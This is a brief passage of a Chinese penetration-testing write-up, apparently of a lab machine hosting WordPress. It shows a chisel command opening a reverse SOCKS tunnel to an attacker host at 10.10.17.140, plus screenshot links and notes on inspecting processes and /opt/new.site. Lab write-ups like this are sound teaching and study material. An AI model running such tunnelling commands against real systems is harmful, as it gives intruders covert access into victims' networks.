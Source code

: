 
Wordpres 网站

## 搭建隧道

接着使用 chisel 建立隧道。  
./chisel\_1.7.7\_linux\_amd64 client 10.10.17.140:8000 R:socks

[![](assets/1704158243-55b0b1fa399a50202ee749892b068f17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213204-fca6e94a-a7e0-1.png)

查看其进程。

[![](assets/1704158243-64ab939f6205def22a5b5abbb42a3bee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213233-0d74a794-a7e1-1.png)

进入/opt/new.site：发现一些文件。

[![](assets/1704158243-160171b3eb66ca3d44641fce39cc395a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213245-14fc906c-a7e1-1.png)
